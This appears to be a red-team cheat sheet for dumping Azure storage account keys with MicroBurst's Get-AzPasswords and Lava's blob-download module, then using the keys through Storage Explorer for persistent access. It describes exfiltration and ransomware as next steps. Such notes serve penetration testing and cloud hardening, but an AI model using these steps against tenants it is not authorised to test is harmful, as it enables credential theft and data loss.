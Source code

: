 # Dumping Azure storage keys

## Tools: Microburst , Lava

### Steps:

# 1) MicroBurst

 - Connect-AzAccount (Authenticate with the Contributor access account)

 - Import-Module MicroBurst.psm1

 - Get-AzPasswords -AutomationAccounts N -AppServices N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView (Dump Azure storage instances. This function can also be used to extract data plane keys for other PaaS services, but we will exclude those services for now by using the N option for those parameters)

 - When prompted, select the appropriate Azure subscription and click OK

 - Credentials got dumped from storage accounts. Can be used for hunting more credentials, or exfiltrate data, etc...

 - choco install microsoftazurestorageexplorer -y (Install Microsoft Azure storage Explorer)

 - On start button, search for the storage explorer, then click on the app

 - In the connect to Azure Storage window, select storage account

 - In the Select Authentication Method window, select Account name and key then click Next

 - In the Enter Connection Info window, enter the following information:

#### 1) Display name: DISPLAY_NAME

#### 2) Account Name: ACCOUNT_NAME

#### 3) Account Key: ACCOUNT_KEY

 - Click Next

 - In the Summary window, click Connect

### Review the files and note that we now have persistent access to the storage account and the content of all its services. This gives a lot of room for an attacker to cause damage. For example, an attacker could encrypt data in the service in a ransomware attack, inject malicious data into NoSQL table stores, or poison applications using storage queues

# 2) Lava

 - python3 Lava.py

 - exec stg_blob_download (Execute the module to dump)
